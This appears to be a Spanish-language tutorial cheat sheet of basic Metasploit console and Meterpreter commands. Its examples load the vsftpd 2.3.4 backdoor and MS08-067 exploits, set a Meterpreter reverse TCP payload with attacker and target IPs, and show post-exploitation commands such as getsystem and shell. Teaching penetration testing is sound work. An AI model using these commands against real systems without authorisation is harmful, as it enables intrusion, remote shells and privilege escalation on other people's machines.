 # Metasploit - Comandos básicos

### <mark style="color:yellow;">Tabla de comandos básicos de Metasploit</mark>

<table data-header-hidden data-full-width="true"><thead><tr><th></th><th></th><th></th></tr></thead><tbody><tr><td><strong>Comando</strong></td><td><strong>Uso</strong></td><td><strong>Ejemplo</strong></td></tr><tr><td><code>use [auxiliary/exploit/payload/encoder/evasion]</code></td><td>Seleccionar un módulo específico</td><td><code>msf> use exploit/unix/ftp/vsftpd_234_backdoor</code></td></tr><tr><td><code>show [exploits/payloads/options/etc.]</code></td><td>Ver lista de módulos disponibles</td><td><code>msf> show payloads</code><br><code>msf> show options</code></td></tr><tr><td><code>set [opción/payload]</code></td><td>Asignar valor a un parámetro específico</td><td><code>msf> set payload windows/meterpreter/reverse_tcp</code><br><code>msf> set LHOST 192.168.10.118</code><br><code>msf> set RHOST 192.168.10.112</code></td></tr><tr><td><code>setg [opción/payload]</code></td><td>Asignar valor global a un parámetro</td><td><code>msf> setg RHOST 192.168.10.112</code></td></tr><tr><td><code>run</code></td><td>Ejecutar un módulo auxiliar</td><td><code>msf> run</code></td></tr><tr><td><code>exploit</code></td><td>Ejecutar un exploit</td><td><code>msf> exploit</code></td></tr><tr><td><code>back</code></td><td>Salir del módulo actual y volver</td><td><code>msf(ms08_067_netapi)> back</code></td></tr><tr><td><code>info</code></td><td>Ver información detallada de un módulo</td><td><code>msf> info exploit/windows/smb/ms08_067_netapi</code></td></tr><tr><td><code>search</code></td><td>Buscar un módulo específico</td><td><code>msf> search hfs</code></td></tr><tr><td><code>check</code></td><td>Verificar si el objetivo es vulnerable</td><td><code>msf> check</code></td></tr><tr><td><code>sessions</code></td><td>Listar sesiones activas</td><td><code>msf> sessions [número]</code></td></tr></tbody></table>

### <mark style="color:yellow;">Comandos básicos de Meterpreter(se verá más adelante)</mark>

| **Comando**             | **Uso**                                      | **Ejemplo**               |
| ----------------------- | -------------------------------------------- | ------------------------- |
| `sysinfo`               | Obtener información del sistema comprometido | `meterpreter> sysinfo`    |
| `ifconfig` / `ipconfig` | Listar interfaces de red                     | `meterpreter> ifconfig`   |
| `arp`                   | Ver IPs y MACs conectadas al objetivo        | `meterpreter> arp`        |
| `background`            | Enviar sesión activa a segundo plano         | `meterpreter> background` |
| `shell`                 | Abrir shell de comandos                      | `meterpreter> shell`      |
| `getuid`                | Obtener nombre de usuario actual             | `meterpreter> getuid`     |
| `getsystem`             | Escalar privilegios a SYSTEM                 | `meterpreter> getsystem`  |
| `getpid`                | Obtener el PID del proceso de Meterpreter    | `meterpreter> getpid`     |
| `ps`                    | Listar todos los procesos activos            | `meterpreter> ps`         |
